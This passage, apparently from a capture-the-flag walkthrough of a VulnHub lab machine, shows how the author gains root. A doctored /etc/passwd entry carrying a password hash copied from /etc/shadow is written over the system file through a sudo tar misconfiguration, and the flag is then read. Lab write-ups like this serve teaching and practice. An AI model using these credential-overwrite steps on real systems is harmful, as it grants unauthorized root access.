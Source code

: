 Connect to the zico host using SSH, then use vim to replace the `x` on root password with an encrypted password of yours. You can pick something from your machine's `/etc/shadow` and put it there using this format.

```
root:[YOUR ENCRYPTED PASSWORD]:0:0:root:/root:/bin/bash
```

Next, we're going to use `/bin/tar` as root to archive it.

```
$ sudo tar -cvf passwd.tar passwd
```

Now we have the `passwd.tar` file owned by root. We can use `/bin/tar` to replace the `/etc/passwd` file using our version of `passwd` in `passwd.tar`.

```
$ cd /etc/
$ sudo tar -xvf /home/zico/passwd.tar
```

Voila, we can now use `su` to root with the password we just set in `/etc/passwd`.

### Capturing the Flag

Go to the `/root` directory, since we already got the root access. The flag is available in the `flag.txt` file.

```
# cat flag.txt 
#
#
#
# ROOOOT!
# You did it! Congratz!
# 
# Hope you enjoyed! 
# 
# 
#
#


```

That's it, folks! Thanks for the challenge, [Rafael](https://www.vulnhub.com/author/rafael,565/)!